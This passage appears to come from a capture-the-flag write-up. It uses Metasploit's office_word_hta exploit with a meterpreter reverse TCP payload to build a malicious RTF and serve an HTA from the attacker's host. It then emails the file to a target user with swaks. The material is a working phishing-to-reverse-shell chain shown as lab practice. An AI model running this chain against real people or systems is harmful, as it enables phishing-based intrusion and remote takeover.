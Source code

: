 ```bash
msf6 exploit(windows/fileformat/office_word_hta) > show options 

Module options (exploit/windows/fileformat/office_word_hta):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  hello.rtf        yes       The file name.
   SRVHOST   10.10.14.20      yes       The local host or network interface to listen on.
   SRVPORT   8080             yes       The local port to listen on.
   SSL       false            no        Negotiate SSL for incoming connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH   default.hta      yes       The URI to use for the HTA file


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     443              yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Office Word
```

Now, we just need to enter the `exploit` command to generate the malicious file and start the listener.

```bash
msf6 exploit(windows/fileformat/office_word_hta) > exploit 
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.xx:443 
[+] hello.rtf stored at /root/.msf4/local/hello.rtf
[*] Using URL: http://10.10.14.xx:8080/default.hta
[*] Server started.
```

Note that our malicious file is stored in **/root/.msf4/local/hello.rtf**. Now, using [swaks](http://www.jetmore.org/john/code/swaks/), an SMTP test tool, we can send our payload to **nico@megabank.com**.

```bash
$ sudo swaks --to nico@megabank.com --server 10.129.147.8 --attach /root/.msf4/local/hello.rtf
[sudo] password for ax: 
*** DEPRECATION WARNING: Inferring a filename from the argument to --attach will be removed in the future.  Prefix filenames with '@' instead.
=== Trying 10.129.147.8:25...
=== Connected to 10.129.147.8.
<-  220 Mail Service ready
 -> EHLO nms
<-  250-REEL
<-  250-SIZE 20480000
<-  250-AUTH LOGIN PLAIN
<-  250 HELP
 -> MAIL FROM:<root@nms>
<-  250 OK
 -> RCPT TO:<nico@megabank.com>
```